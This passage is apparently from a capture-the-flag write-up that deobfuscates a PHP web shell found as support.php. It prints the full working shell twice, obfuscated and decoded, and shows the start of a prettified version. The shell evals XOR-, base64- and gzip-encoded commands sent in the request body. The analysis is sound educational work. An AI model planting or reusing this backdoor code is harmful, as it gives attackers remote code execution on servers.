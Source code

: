We can safely ignore `to-do.txt` since it is the same description that we had at the start of this challenge. The next file `support.php` looks like an obfuscated shell and since we found it in VirusTotal we can safely say that. Let's review the code

### 2.- Exploring `support.php` shell
Let us take a quick look to this PHP Script
```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```

With some tinkering, and code sorting, we realized that variables `V, P, d, B, c` are just part of the shell. The important ones are `$N` and `$u`. Using a PHP Interpreter (I used this docker image to play with it)
> `docker run --rm -v ${pwd}:/mnt/ -it php bash`

I'm not going to explain the usage of Docker for the purpose of this Write Up, but I strongly recommend you learn it.

Let us move on. As mentioned before variables `$N` and `$u` are what we need to explore here. If you check using the interpreter `$N` value is `create_function`, a PHP function that allow the system to build functions during execution time. This is usually used by attackers to obfuscate their shells. As we continue, we realize that the shell content is in `$u` variable. The last part of the script (`$x=$N('',$u);$x();`) is just to execute the shell.

**`$u` content:**
```php
$k="80e32263";$kh="6f8af44abea0";$kf="351039f4a7b5";$p="0UlYyJHG87EJqEz6";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){@ob_start();@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
```

Our next step will be to prettify the code to have a better understanding of it. I already did that for you. 

```php
<?
# Variables for obfuscation
$k="80e32263";
$kh="6f8af44abea0";
$kf="351039f4a7b5";
$p="0UlYyJHG87EJqEz6";

# Obfuscation method
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o=""; for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t[$i]^$k[$j];  // ^ operator is reversible
        }
    }
```